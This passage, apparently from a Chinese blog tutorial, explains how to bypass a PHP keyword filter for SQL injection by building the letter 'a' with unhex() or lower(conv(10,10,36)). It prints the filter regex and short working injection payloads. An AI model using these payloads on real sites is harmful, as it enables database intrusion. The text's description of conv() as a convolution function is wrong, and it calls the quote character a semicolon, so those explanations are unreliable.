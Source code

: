 -----

**`0x61`** 为16进制的a，最后就变成 `1||a=a`<br>

<span id = "unhex">**unhex()**</span> 函数: 对十六进制数字转化为一个字符。 <br>

最后这条语句也是跟上面一样了。<br>

--------
<br>


## **关键词过滤：`and` , `or` , `union` , `where` , `limit` , `group by` , `select` ,`'`(分号) , `hex`**

PHP过滤代码：
```php 
preg_match ('/(and|or|union|where|limit|group by|select|\'|hex)/i',$id)
```

过滤注入：
```sql
1||substr(user,1,1)=unhex(61)
```

绕过注入：
```sql
1||substr(user,1,1)=lower(conv(10,10,36))
```

<span id = "conv">**conv()**</span> 函数是用于计算向量的卷积和多项式乘法。<br>

不懂没关系，这篇文章讲的很详细，<br>
`https://blog.csdn.net/geming2017/article/details/84256843` <br>

虽然看懂了一些，但是太菜了，无法用脚本来计算，<br>

于是本菜稍微去测试了一下，于是有了这个结果，<br>

![images](/images/2019-04-05/gj03.png) <br>
